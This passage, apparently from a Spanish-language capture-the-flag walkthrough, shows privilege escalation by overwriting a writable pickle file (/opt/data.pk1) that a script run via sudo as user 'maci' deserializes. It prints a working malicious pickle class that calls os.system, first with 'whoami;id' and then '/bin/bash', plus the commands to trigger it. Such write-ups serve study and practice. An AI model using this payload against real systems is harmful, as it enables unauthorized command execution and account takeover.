 solo observo un mensaje, pero si vuelvo al script que se encarga de deserializar, recordemos que deserializa el archivo `/opt/data.pk1` y al revisar los permisos
del archivo veo que es posible modificarlo

![image](https://github.com/user-attachments/assets/af56c9ee-a2ae-4b98-a208-897a7081e2e9)

esto puede conducir a una inyeccion de comandos al manipular el archivo que es deserializado por el script que ejecuta el user `maci`, asi que voy a manipular dicho archivo
 con codigo malicioso para que ejecute comandos y obtener entonces una bash como `maci`


 ```python
import pickle
import os

class Malicious:
   def __reduce__(self):
           return (os.system, ('whoami;id',))

   # Serializar el objeto malicioso
with open('/opt/data.pk1', 'wb') as f:
       pickle.dump(Malicious(), f)
```

guardo el script como `/tmp/inyeccion.py`

este script lo que hara sera modificar el contenido del archivo `/opt/data.pk1` inyectando comandos que se ejecutaran cuando se deserialice

```ruby
chmod +x /tmp/inyeccion.py # le damos permisos de ejecucion
```

ahora ejecuto el script `inyeccion.py`

```ruby
python3 inyeccion.py
```

y luego ejecuto el script de deserializacion como el user `maci`

```ruby
sudo -u maci /bin/python3 /home/maci/.time_seri/time.py
```

![image](https://github.com/user-attachments/assets/81f017f2-a2da-476b-8c7f-9e5fe950f92e)

se han ejecuto los comandos que inyecte, ahora cambiare los comandos `whoami;id` por `/bin/bash` quedando el script `inyeccion.py` de la siguiente manera

```ruby
import pickle
import os

class Malicious:
   def __reduce__(self):
           return (os.system, ('/bin/bash',))

   # Serializar el objeto malicioso
with open('/opt/data.pk1', 'wb') as f:
       pickle.dump(Malicious(), f)
```
Ejecuto nuevamente inyeccion.py para modificar el contenido de `/opt/data.pk1` con el comando `/bin/bash` y despues ejecuto
el script de deserializacion como el user `maci` y obtengo la shell como `maci`
